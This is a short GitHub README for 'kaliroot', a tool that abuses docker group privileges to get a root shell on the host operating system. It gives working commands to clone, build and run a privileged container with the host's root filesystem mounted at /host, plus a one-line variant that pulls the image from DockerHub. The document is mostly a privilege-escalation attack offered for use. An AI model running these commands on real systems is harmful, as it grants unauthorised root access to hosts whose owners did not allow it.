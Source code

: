 # kaliroot

Abuses `docker` group privileges to gain a root level shell into the main operating system.

Exit the chroot shell, and you now have access to any Kali tools you need, and access the host root filesystem at `/host`.

This is part of my slightly larger project on GitHub called [dockergroupabuse](https://github.com/phx/dockergroupabuse).

## Install via Git

```sh
git clone https://github.com/phx/kaliroot
cd kaliroot
docker build -t kaliroot .
docker run --privileged --pid=host --net=host -itv /:/host kaliroot
```

## Install via DockerHub:
`docker run --privileged --pid=host --net=host -itv /:/host lphxl/kaliroot`
